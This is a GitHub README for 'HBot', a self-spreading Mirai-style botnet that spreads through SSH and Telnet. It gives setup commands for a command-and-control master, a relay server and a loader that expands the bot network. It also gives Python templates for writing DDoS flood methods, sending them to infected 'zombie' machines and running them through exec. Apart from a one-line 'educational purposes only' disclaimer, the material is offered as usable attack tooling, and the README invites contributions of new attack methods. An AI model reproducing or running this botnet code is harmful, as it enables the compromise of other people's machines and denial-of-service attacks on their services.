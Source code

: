 <h1 align="center">HBot</h1>

<p align='center'>
    <b>Self spreading Botnet based on Mirai C&C Arch, spreading through SSH and Telnet protocol.<br>Modern script fullly written in python3.</b><br>
    <br>
    <img src='https://media.discordapp.net/attachments/882441218183807067/883772504760533022/unknown.png'>
</p>

----

<br><br>

> # Warning.

* ***This project was made for educational purposes only! I take no responsibility for anything you do with this program.***
* ***If you have any suggestions, problems, open a problem (if it is an error, you must be sure to look if you can solve it with [Google](https://giybf.com)!)***

<br>

> # Requirements.

* A **Brain**, *yes skiddie, you need to use your brain, but d'ont worry because [Google](https://giybf.com) is your best friend !*
* A [MongoDB](https://mongodb.com) account, you must create an **cluster** with **database**, show [tutorial](https://docs.atlas.mongodb.com/getting-started/).
* A [Ngrok](https://ngrok.com) account, (save your **api-key**)
* __3__ Open port. Default: **8080**, **1337**, **667**
* VPS with __Debian__ based distribution.
* Time..

<br>

> # How to setup.

* *Change the permissions of the scripts with the chmod command.*
```sh
chmod +x ./script/*.sh
```

* *Run installation script.*
```sh
./Install.sh
```

* *Start C&C Master server.*
```sh
./RunMaster.sh
```

* *Start Relay server.*
* **Note**: If you have more than one VPS, you can run relay on other server.
```sh
./RunMaster.sh
```

* *When you have enough new bots, you can expand your network by starting the loader.*
```sh
./Loader.sh
```

<br>

> # Custom payload.

***If you whant to share your methods, just create pull requests <3***

1. Create your method with the template (*#1*)
2. You need to add your method in class `Zombie` (**cnc.py** / *#2*)
3. If you whant to add module (no pypi) you need to follow *#3* in **zombie.py**


- #1:
```py
import socket, threading, time

def method_name(ip: str, port: str, timeout: str):
    def flood(ip: str, port: int, timeout: int):
        start_time = int(time.time())

        while int(time.time()) - start_time < timeout:
            # write method code here
            # Exemple: https://github.com/Its-Vichy/HBot/blob/main/src/payload/http_flood.py

    for _ in range(int(thread)):
        threading.Thread(target= flood, args=(ip, int(port), int(timeout))).start()

method_name('!ip!', '!port!', '!time!')
```

- #2:
```py
def ddos_payload(self, ip: str, port: str, timeout: str, type: str):
    if type == 'http':
        payload = self.parse_method('./payload/http_flood.py', ip, port, timeout)
    
    if type == 'your method name without space lmao':
        payload = self.parse_method('./payload/your_method_file.py', ip, port, timeout)
        
    self.send(f'run|{payload}')
```
 
 - #3
 ```py
 # Just look for this line
 # add: 'module_name': module_name
 # Ex: 'random': random
 threading.Thread(target= exec, args=(payload, {'threading': threading, 'socket': socket, 'time': time, 'module_name': module_name})).start()
 ```
 
<br>

> # How is working.

* **Loader**: soon..
* **Relay**: soon..
* **C&C**: soon..

<br>

> # Support me.

* ⚠️ If this repository was empty, its because the project stay in **developpement**.
* Thanks for looking at this repository, if you like to press the ⭐ button!
* Made with 💖 by [Vichy](https://github.com/Its-Vichy).
* RCΛ Love u.

<p align="center"> 
    <b>Informations</b><br>
    <img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/Its-Vichy/HBot?style=social">
    <img alt="GitHub top language" src="https://img.shields.io/github/languages/top/Its-Vichy/HBot">
    <img alt="GitHub last commit" src="https://img.shields.io/github/last-commit/Its-Vichy/HBot">
    <img alt="GitHub" src="https://img.shields.io/github/license/Its-Vichy/HBot">
    <img alt="GitHub watchers" src="https://img.shields.io/github/watchers/Its-Vichy/HBot?style=social">
</p>